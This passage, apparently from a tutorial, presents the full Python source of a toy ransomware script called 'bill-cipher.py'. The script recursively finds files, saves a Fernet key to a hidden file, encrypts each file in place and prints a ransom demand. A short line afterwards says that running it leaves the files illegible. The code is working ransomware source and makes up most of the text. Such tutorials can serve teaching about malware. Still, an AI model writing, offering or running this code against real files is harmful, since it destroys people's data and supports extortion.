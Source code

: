So the complete encryption program (`bill-cipher.py`) will look something like this:
```py
#!/usr/local/bin/python3 

import os
from cryptography.fernet import Fernet

def find_files():
	files = []
	
	for file in os.listdir():
		if file == "bill-cipher.py" or file == ".a_deal" or file == "bill-decipher.py":
			continue
		
		if os.path.isfile(file):
			files.append(file)
		else:
			os.chdir(file)
			sub_files = find_files()
			os.chdir("..")
			for subfile in sub_files:
				path = file + "/" + subfile
				files.append(path)
			
	return files

files = find_files()

print(files)

key = Fernet.generate_key()

with open(".a_deal", "wb") as deal:
	deal.write(key)

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_encrypted = Fernet(key).encrypt(content)

	with open(file, "wb") as f:
		f.write(content_encrypted)

print("Files are encrypted! Send me moneyyyyyyyyyyyyyyy")
```

Now, if we run `bill-cipher.py`, we can see that all the files that this program can get its hand on becomes a jumble of illegible letters.

![file1-encrypted](/img/file1-encrypted.png)
